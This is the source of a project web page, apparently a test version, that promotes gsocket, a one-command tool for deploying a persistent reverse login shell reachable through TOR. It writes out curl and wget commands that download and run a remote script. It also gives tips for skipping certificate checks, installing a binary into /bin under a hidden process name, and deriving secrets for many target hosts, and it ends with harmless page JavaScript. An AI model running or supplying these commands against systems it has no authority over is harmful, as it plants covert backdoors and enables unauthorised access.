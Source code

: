 ```yaml
---
layout: default
---
```


<h2 align="center">Index -- Test version</h2>

<p class="panel-note2" markdown="1">Deploy a reverse login shell with a *single command* (fully automated) - and access the shell remotely - encrypted - and via TOR if you like.</p>

> _This must be the quickest way to access a system_ -- anonymous

Use either one of these two commands to _install_, _uninstall_, and _access_:

<!-- This is obviously the tabs wrapper -->
<div class="tabs-wrapper">
    <!-- And here the tabs container -->
    <div class="tabs">
        <!-- This is the first tab -->
        <div class="tab">
            <!-- "checked" means active tab -->
            <input type="radio" name="css-tabs-init" id="curl-init" class="tab-switch" checked>
            <!-- This is the tab selector -->
            <label for="curl-init" class="tab-label">Curl</label>
            <!-- This is the tab content container -->
            <div class="tab-content">
                <ul>
                    <li><p><strong>Install</strong></p>
<!--
This is how to reproduce the syntax highlighting with "rouge"
You must respect this weird placement to avoid extra rendered space
See here for more details:
https://jekyllrb.com/docs/liquid/tags/#code-snippet-highlighting
-->
{% highlight shell %}
bash -c "$(curl -fsSL gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Uninstall</strong></p>
{% highlight shell %}
GS_UNDO=1 bash -c "$(curl -fsSL gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Access</strong></p>
{% highlight shell %}
S="ExampleSecretChangeMe" bash -c "$(curl -fsSL gsocket.io/x)"
{% endhighlight %}
                    </li>
                </ul>
            </div>
        </div>
        <!-- This is the second tab -->
        <div class="tab">
            <input type="radio" name="css-tabs-init" id="wget-init" class="tab-switch">
            <label for="wget-init" class="tab-label">Wget</label>
            <div class="tab-content">
                <ul>
                    <li><p><strong>Install</strong></p>
{% highlight shell %}
bash -c "$(wget --no-verbose -O- gsocket.io/x)"
{% endhighlight %}
                    </li>
                </ul>
                <ul>
                    <li><p><strong>Uninstall</strong></p>
{% highlight shell %}
GS_UNDO=1 bash -c "$(wget --no-verbose -O- gsocket.io/x)"
{% endhighlight %}
                    </li>
                </ul>
                <ul>
                    <li><p><strong>Access</strong></p>
{% highlight shell %}
S="ExampleSecretChangeMe" bash -c "$(wget --no-verbose -O- gsocket.io/x)"
{% endhighlight %}
                    </li>
                </ul>
            </div>
        </div>
    </div>
</div>

<p class="panel-note2" markdown="1">This is just one of many GSOCKET examples. More on [GitHub]({{site.github.repository_url}}).</p>

{:refdef: style="text-align: center;"}
## Screenshots
{: refdef}
Deploy on a host
{:refdef: style="text-align: center;"}
![Deploy-Example](../assets/images/deploy-example.png)
{: refdef}
Log in to the host from your workstation
{:refdef: style="text-align: center;"}
![Deploy-Login](../assets/images/deploy-login.png)
{: refdef}

{:refdef: style="text-align: center;"}
## Tips & Tricks
{: refdef}

<div class="tabs-wrapper">
    <div class="tabs" style="height: 25.45rem;">
        <div class="tab">
            <input type="radio" name="css-tabs-tricks" id="curl-tricks" class="tab-switch" checked>
            <label for="curl-tricks" class="tab-label">Curl</label>
            <div class="tab-content" style="height: 23.5rem;">
                <ul>
                    <li><p><strong>Ignore SSL / Certificate warnings</strong></p>
{% highlight shell %}
bash -c "$(curl -fsSLk gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Deploy with a predefined secret</strong></p>
{% highlight shell %}
X=ExampleSecretChangeMe bash -c "$(curl -fsSL gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Deploy from self-extracting shell-script <a href="https://github.com/hackerschoice/binary/raw/main/gsocket/bin/deploy-all.sh" target="_blank">deploy-all.sh</a> without fetching any packages and using good old plain HTTP</strong></p>
{% highlight shell %}
curl -fsSL http://nossl.segfault.net/deploy-all.sh && \
bash ./deploy-all.sh
{% endhighlight %}
                    </li>
                </ul>
            </div>
        </div>
        <div class="tab">
            <input type="radio" name="css-tabs-tricks" id="wget-tricks" class="tab-switch">
            <label for="wget-tricks" class="tab-label">Wget</label>
            <div class="tab-content" style="height: 23.5rem;">
                <ul>
                    <li><p><strong>Ignore SSL / Certificate warnings</strong></p>
{% highlight shell %}
bash -c "$(wget --no-check-certificate -qO- gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Deploy with a predefined secret</strong></p>
{% highlight shell %}
X=ExampleSecretChangeMe bash -c "$(wget --no-verbose -O- gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Deploy from self-extracting shell-script <a href="https://github.com/hackerschoice/binary/raw/main/gsocket/bin/deploy-all.sh" target="_blank">deploy-all.sh</a> without fetching any packages and using good old plain HTTP</strong></p>
{% highlight shell %}
wget --no-hsts http://nossl.segfault.net/deploy-all.sh && \
bash ./deploy-all.sh
{% endhighlight %}
                    </li>
                </ul>
            </div>
        </div>
    </div>
</div>

Useful environment variables:  

|:---|:---|
|S=|Connect to a system (or use `gs-netcat -s <secret> -il`).|
|X=|Set a predefined secret for the installation (X like in inXstallation).|
|GS_NOINST=1|Only start but without installing (will not survive a reboot).|
|GSOCKET_ARGS=|Use additonal arguments. Most often used to force TOR in combination with S=, e.g. `GSOCKET_ARGS="-T" S=<secret> bash -c "$(curl -fsSLk gsocket.io/x)`.|
|GS_DSTDIR=|Set the installation directory. The default is to pick the most suitable automatically. Use `find . -type d -writable`. |
|GS_URL_BASE=|Use URL for static binaries. The default is https://github.com/hackerschoice/binary/raw/main/gsocket/bin/.|
|GS_OSARCH=|Force architecture. The default is to pick the most suitable automatically.
|GS_DEBUG=1|Verbose output and other debug related settings. Often used together with `GS_DEBUG=1 GS_NOSTART=1 GS_NOINST=1 bash -c "$(curl -fsSL gsocket.io/x)"`.|
|GS_HIDDEN_NAME=|Use a custom hidden process name.|
|TMPDIR=|Use a custom temporary directory. Try TMPDIR=$(pwd)|

If all fails:

Download the static binary from [https://github.com/hackerschoice/binary/tree/main/gsocket/bin](https://github.com/hackerschoice/binary/tree/main/gsocket/bin) (likely [gs-netcat_x86_64-alpine.tar.gz](https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-alpine.tar.gz)) and extract and start gs-netcat manually:

<div class="tabs-wrapper">
    <div class="tabs" style="height: 12.45rem;">
        <div class="tab">
            <input type="radio" name="css-tabs-manual" id="curl-manual" class="tab-switch" checked>
            <label for="curl-manual" class="tab-label">Curl</label>
            <div class="tab-content" style="height: 10.5rem; padding-left: 1.2em;">
{% highlight shell %}
curl -fsSL https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-alpine.tar.gz | tar xz -C /bin gs-netcat
SECRET=$(/bin/gs-netcat -g)
GSOCKET_ARGS="-liD -s $SECRET" /bin/gs-netcat
echo "Connect with: gs-netcat -s $SECRET -i" 
{% endhighlight %}
            </div>
        </div>
        <div class="tab">
            <input type="radio" name="css-tabs-manual" id="wget-manual" class="tab-switch">
            <label for="wget-manual" class="tab-label">Wget</label>
            <div class="tab-content" style="height: 10.5rem; padding-left: 1.2em;">
{% highlight shell %}
wget --no-check-certificate -qO- https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-alpine.tar.gz | tar xz -C /bin gs-netcat
SECRET=$(/bin/gs-netcat -g)
GSOCKET_ARGS="-liD -s $SECRET" /bin/gs-netcat
echo "Connect with: gs-netcat -s $SECRET -i" 
{% endhighlight %}
            </div>
        </div>
    </div>
</div>

{:refdef: style="text-align: center;"}
## Advanced Tips & Tricks
{: refdef}

Remembering many secrets from many deployments is cumbersome. It is easier to remember just one MASTER-SEED and derive the SECRET from the target's hostname. The following script generates a secure SECRET based on a single MASTER-SEED and the target's hostname.

<div class="tabs-wrapper">
    <div class="tabs" style="height: 35.45rem;">
        <div class="tab">
            <input type="radio" name="css-tabs-advanced" id="curl-advanced" class="tab-switch" checked>
            <label for="curl-advanced" class="tab-label">Curl</label>
            <div class="tab-content" style="height: 33.5rem; padding-left: 1.2em;">
{% highlight sh %}
# cut & paste this into your shell on your workstation or add to ~/.bashrc
gssec()
{
    str="$(echo "${GS_SEED:?}$1" | sha512sum | base64 | tr -d -c a-z0-9)"
    str="${str:0:22}"
    echo "DEPLOY: X=${str}"' bash -c "$(curl -fsSL gsocket.io/x)"'
    echo "ACCESS: S=${str}"' bash -c "$(curl -fsSL gsocket.io/x)"'
    echo "ACCESS: gs-netcat -s ${str} -i"
}

# Pick a STRONG master seed:
[[ -z $GS_SEED ]] && GS_SEED=MySuperStrongMasterSeed
{% endhighlight %}
{% highlight sh %}
# Generate a SECRET based on the SEED and 'alice.com'
$ gssec alice.com # You only need to know "alice.com" to connect.

# Output from above's command:
DEPLOY: X=2m1zidi1zkkmxjjj0z0jlj bash -c "$(curl -fsSL gsocket.io/x)"
ACCESS: S=2m1zidi1zkkmxjjj0z0jlj bash -c "$(curl -fsSL gsocket.io/x)"
ACCESS: gs-netcat -s 2m1zidi1zkkmxjjj0z0jlj -i
{% endhighlight %}
            </div>
        </div>
        <div class="tab">
            <input type="radio" name="css-tabs-advanced" id="wget-advanced" class="tab-switch">
            <label for="wget-advanced" class="tab-label">Wget</label>
            <div class="tab-content" style="height: 33.5rem; padding-left: 1.2em;">
{% highlight sh %}
# cut & paste this into your shell on your workstation or add to ~/.bashrc
gssec()
{
    str="$(echo "${GS_SEED:?}$1" | sha512sum | base64 | tr -d -c a-z0-9)"
    str="${str:0:22}"
    echo "DEPLOY: X=${str}"' bash -c "$(wget --no-check-certificate -qO- gsocket.io/x)"'
    echo "ACCESS: S=${str}"' bash -c "$(wget --no-check-certificate -qO- gsocket.io/x)"'
    echo "ACCESS: gs-netcat -s ${str} -i"
}

# Pick a STRONG master seed:
[[ -z $GS_SEED ]] && GS_SEED=MySuperStrongMasterSeed
{% endhighlight %}
{% highlight sh %}
# Generate a SECRET based on the SEED and 'alice.com'
$ gssec alice.com # You only need to know "alice.com" to connect.

# Output from above's command:
DEPLOY: X=2m1zidi1zkkmxjjj0z0jlj bash -c "$(wget --no-check-certificate -qO- gsocket.io/x)"
ACCESS: S=2m1zidi1zkkmxjjj0z0jlj bash -c "$(wget --no-check-certificate -qO- gsocket.io/x)"
ACCESS: gs-netcat -s 2m1zidi1zkkmxjjj0z0jlj -i
{% endhighlight %}
            </div>
        </div>
    </div>
</div>

<p class="panel-note" markdown="1">Get Involved. We are looking for volunteers to work on the website and a logo and to discuss new ideas. [Join us on telegram](https://t.me/thcorg).</p>

<!-- Tooltips test -->
<!-- <button class="copy-button test"><img width="16" src="/assets/icons/copy_16.svg" alt="Copy to clipboard" title="Copy to clipboard"></button> -->

<script>
// Custom THC Methods
const thc = {
    greetings: 'Hello there! Hope you will enjoy reading the code :P',
    version: 0.0.1,
    verbose: Boolean(new URLSearchParams(document.location.search).get('d')) || false,

    // Custom method to show tooltip next to copy/paste buttons
    showTooltip: (element, text, direction) => {
        // Target element
        const el = element.children[0];

        // Tooltip code
        const tooltipHTML = `<div class="tooltip"><span class="tooltiptext ${direction}">${text}</span></div>`;

        // Debug
        if (thc.verbose === true) {
            console.log('Called from element:', element);
            console.log('Element children:', element.children);
            console.log('Target element:', el);
        }

        // Add tooltip element
        el.insertAdjacentHTML('afterend', tooltipHTML);

        // Lookup created tooltip element
        const tooltipContainer = document.querySelector('.tooltip');
        const tooltipContent = tooltipContainer.children[0];

        // Debug
        if (thc.verbose === true) {
            console.log('Related tooltip:', tooltipContainer);
            console.log('Tooltip content:', tooltipContainer.children[0]);
        }

        // Reveal tooltip
        tooltipContent.style.opacity = 1;

        // Attach mouse event just once
        el.addEventListener('mouseleave', (event) => {
            // Target element
            const el = event.target;

            // Debug
            if (thc.verbose === true) {
                console.log('Mouse [mouseleave] event received:', event);
                console.log('Target element:', el);
            }

            // Lookup created tooltip element
            const tooltipContainer = document.querySelector('.tooltip');
            const tooltipContent = tooltipContainer.children[0];

            // Debug
            if (thc.verbose === true) {
                console.log('Related tooltip:', tooltipContainer);
                console.log('Tooltip content:', tooltipContainer.children[0]);
            }

            // Hide tooltip
            tooltipContent.style.opacity = 0;

            // Remove tooltip with a delay
            const delayedRemoval = setTimeout(() => {
                document.querySelectorAll('.tooltip').forEach((el) => {
                    // Debug
                    if (thc.verbose === true) {
                        console.log('Removing tooltip.', el);
                    }

                    // Remove detected tooltip
                    el.remove();

                    // Remove timeout
                    clearTimeout(delayedRemoval);
                });
            }, 1000);
        }, { once: true });
    },

    // Adding some 'magic' on tabs ;)
    initTabs: () => {
        const tabsDebug = thc.verbose;
        const tabsSelector = 'input.tab-switch';
        document.querySelectorAll(tabsSelector).forEach((el) => {
            const id = el.id;
            const type = id.split('-')[0];
            if (tabsDebug === true) {
                console.log('[change] event listener attached on', id, '- type:', type);
            }
            el.addEventListener('change', (event) => {
                if (tabsDebug === true) {
                    console.log('Change event triggered.', event);
                }
                let targetTabs = String(event.target.id).includes(type) ? type : 'undefined';
                if (tabsDebug === true) {
                    console.log(`Should select other [${targetTabs}] tabs.`);
                }
                document.querySelectorAll(tabsSelector).forEach((target) => {
                    if (String(target.id).includes(targetTabs) && !target.checked) {
                        target.checked = true;
                    }
                });
            });
        });
    },

    // Adding some other 'magic' on code snippets :P
    /*
    Done: Add CSS tooltips
    From: https://www.w3schools.com/css/css_tooltip.asp
    Comment: Yes, I'm lazy and don't remind everything. Don't blame me.
    Goal: Keep things as light as possible.
    Reached: Replaced 'showTooltip()' method from GitHub Primer by custom one.
    Author: Doctor Who (Jiab77)
    */
    initCopyPaste: () => {
        // Copy icon from GitHub Primer
        // https://primer.style/design/foundations/icons
        
        const clipDebug = thc.verbose;
        const snippets = document.querySelectorAll('figure.highlight pre');
        snippets.forEach((snippet) => {
            if (clipDebug === true) {
                console.log('Connected on element:', snippet);
            }
            snippet.firstChild.insertAdjacentHTML(
                'beforebegin',
                '<button class="copy-button" data-clipboard-snippet><img width="16" src="/assets/icons/copy_16.svg" alt="Copy to clipboard" title="Copy to clipboard"></button>'
            );
        });
        
        const clipboardSnippets = new ClipboardJS('[data-clipboard-snippet]', {
            target: (trigger) => {
                return trigger.nextElementSibling; // 'nextElementSibling' is used because the button is placed before the other elements
            }
        });
        
        clipboardSnippets.on('success', function(e){
            e.clearSelection();
            if (clipDebug === true) {
                console.log('Received [success] event.', e);
                console.log('Action:', e.action);
                console.log('Text:', e.text);
                console.log('Trigger:', e.trigger);
            }
            thc.showTooltip(e.trigger,'Copied!', 'right');
        });

        clipboardSnippets.on('error', function(e){
            console.log('Received [error] event.', e);
            console.error('Action:', e.action);
            console.error('Trigger:', e.trigger);
            thc.showTooltip(e.trigger,fallbackMessage(e.action), 'right');
        });
    },
    initAll: () => {
        console.log('Initializing custom THC code...');
        console.log('Version:', thc.version);
        thc.initTabs();
        thc.initCopyPaste();
    }
}
thc.initAll();
</script>